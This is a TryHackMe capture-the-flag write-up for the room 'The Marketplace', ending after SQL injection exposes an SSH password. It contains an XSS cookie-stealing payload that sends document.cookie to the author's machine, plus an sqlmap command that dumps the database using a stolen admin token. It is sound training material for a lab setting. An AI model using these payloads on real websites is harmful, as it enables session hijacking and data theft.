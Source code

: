 ```yaml
---
title: TryHackMe The Marketplace Writeup
date: 2023-07-05T13:34:41.636Z
description: My solution for the TryHackMe Room "The marketplace"
---
```

T﻿his room is rated at medium difficulty and covers some interesting topics such as XSS (cross-site scripting), SQL Injection, and a couple of methods for privilege escalation. For me, the victim machine is at address `10.10.15.67`

## R﻿econnaissance

S﻿tarting with an `nmap`scan to find running services and open ports.

```shell
$ nmap -sV 10.10.15.67
```

```
Nmap scan report for ip-10-10-15-67.eu-west-1.compute.internal (10.10.15.67)
Host is up (0.00038s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    nginx 1.19.2
32768/tcp open  http    Node.js (Express middleware)
...
```

F﻿rom this we can see that there is a web server running on the machine, as well and an OpenSSH instance. Let's start by taking a look at the web page .by navigating to `http://10.10.15.67` in a browser

![](/img/webpage.png)

T﻿he website seems to be some sort of online marketplace (surprise, surprise). Poking around on the website uncovers the ability to log in or sign up to create an account. After signing up and logging in, there were some new options available to me: the ability to create a listing, and to view messages for my account. As well as this, there was a session cookie created with the name `token`. These session cookies are used by the browser in order to tell what user is logged in, in order to show them the correct content on the page.

I﻿f we can somehow replace our own session token with one of an administrator or high-level user, we will likely be able to have some administrative options which may help us obtain a reverse shell on the machine. Let's try creating a listing. On the listing creation page, there is a simple form to input the title and content of the listing, we can try testing for XSS vulnerabilities by attempting to embed a textarea element into the page (in the content field). When we then view the listing, and a textarea field is present, we know that the site is vulnerable to XSS injection. 

![](/img/textarea.png)

![](/img/textareaworking.png)

W﻿ith an XSS vulnerability present, we can create a malicious listing that will steal the user's cookie and send it to our web server (which we will set up shortly). When we use the "report listing to administrator" function on the website, the THM machine will automatically mimic an administrator navigating to the listing. With this, we will be able to steal their cookie.

F﻿irst, the cookie stealing payload:

> `<script>fetch('http://<YOUR_MACHINE_IP>:8000/steal?cookie='+btoa(document.cookie));</script>`

T﻿hen, the setup of the web server using python:

```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

N﻿ow, let's submit the listing, and report it to the administrators.

![](/img/listing.png)

![](/img/reported.png)

I﻿f we look in our web server console, sure enough we got the cookie! We will need to base64 decode the cookie into order to get the administrator's token.

![](/img/gotcookie.png)

W﻿e can replace our token cookie with the administrator token by using any firefox or chrome "cookie editor" extension, and then reload the page.

U﻿pon reloading the page, we are presented with another navbar link: "administration panel", which gives us a list of all of the current users in the application. We can click on these links and go to each individual user page, notice the URL parameters when fetching a user:

> **`h﻿ttp://10.10.15.67/admin?user=1`**

T﻿he URL parameters are likely being used to query an SQL database and retrieve information about the user with the corresponding ID passed within the URL. After some playing around, I managed to get the application to give a MySQL syntax error, meaning that an SQL injection is present. Time for SQLMap!

I﻿ won't dive into the details of the SQLMap tool in this writeup, as there are plenty of resources online. One thing to note is that you need to make sure you pass the cookie value to the tool when using it. Also ensure to use the delay argument, as not having it there meant that it didn't work (for me, at least).

```shell
$ sqlmap -u "http://10.10.15.67/admin?user=3" \
         --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2ODg1NjY3MTN9.6zpkfouKBuG5s17Dp_NVWbWDepJpe4cUGc22qzjM63U' \
         --delay=3 \
         --technique=U \
         --dump
```

I﻿ have ommitted most output of the command, but the command dumped 3 database tables, one which contains all listing, one which contained username and password hashes (I tried to crack them with brute force, but they are salted with bcrypt), and other called "`messages`", which contained the following bit of vital information:

```
Hello!\r\nAn automated system has detected your SSH password is too weak
and needs to be changed. You have been generated a new temporary password.
\r\nYour new password is: @b_ENXkGYUCAv3zJ 
```

T﻿his message was sent to user with id `3`, which we can lookup in the users table and find out that it belongs to the user `jake`